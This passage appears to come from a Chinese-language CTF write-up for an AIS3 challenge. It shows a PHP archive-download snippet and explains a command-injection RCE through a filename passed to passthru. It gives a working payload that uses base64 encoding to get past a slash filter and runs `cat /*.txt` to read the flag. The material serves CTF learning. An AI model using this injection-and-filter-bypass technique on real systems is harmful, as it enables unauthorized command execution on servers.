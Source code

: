 ```php
        if ($path === FALSE) {
            echo "<p>Error: Failed to create archive.</p>";
        } else {
            $path = base64_encode($path);
            $filename = urlencode($filename);
            echo "<a href=\"/download.php?file=$path&name=$filename.tar.gz\">Download</a>";
        }
    }
}
```

題目這裡提示說要找到RCE，這裡一個明顯的選擇是`passthru`裡面的`filename`。這裡不知道為什麼，如果傳給他的任何參數包含`/`或`\`，指令就不會執行，所以我們必須想辦法繞過這個限制。最後我找到的辦法是用base64繞過去：

````
filename="';X=`echo Y2F0IC8qLnR4dA==|base64 -d`;$X;'"
````

如此便會執行 `cat /*.txt`。Flag: `AIS3{test_flag (to be changed)}`
